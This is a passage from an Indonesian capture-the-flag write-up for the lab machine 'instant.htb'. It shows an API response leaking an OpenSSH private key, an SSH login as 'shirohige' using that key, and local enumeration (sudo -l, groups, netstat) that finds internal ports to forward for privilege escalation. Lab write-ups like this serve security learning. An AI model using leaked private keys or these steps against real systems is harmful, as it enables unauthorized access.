 ```
    "CGGElC1cS7pOg/XaOh1bPMaJ4Hi3HUWwAAAMEAvV2Gzd98tSB92CSKct+eFqcX2se5UiJZ\n",
    "n90GYFZoYuRerYOQjdGOOCJ4D/SkIpv0qqPQNulejh7DuHKiohmK8S59uMPMzgzQ4BRW0G\n",
    "HwDs1CAcoWDnh7yhGK6lZM3950r1A/RPwt9FcvWfEoQqwvCV37L7YJJ7rDWlTa06qHMRMP\n",
    "5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r\n",
    "bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==\n",
    "-----END OPENSSH PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```

login ssh dengan private key tsb, dan dapat shell
```
ssh -i id_rsa shirohige@instant.htb
```
# 4. Priviledge Escalation
## Cek command yang berhubungan dengan owner dan port
`sudo -l` -> tidak bisa
`groups` -> `shirohige and development`
`netstat -tunlp` -> bisa ada port open 8888 dan 8808
```
$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1331/python3        
tcp        0      0 127.0.0.1:8808          0.0.0.0:*               LISTEN      1336/python3        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```
coba buka port tsb dengan port forwarding
- port 8888 -> mywalletv1.instant.htb
- port  8808 ->  swagger-ui.instant.htb
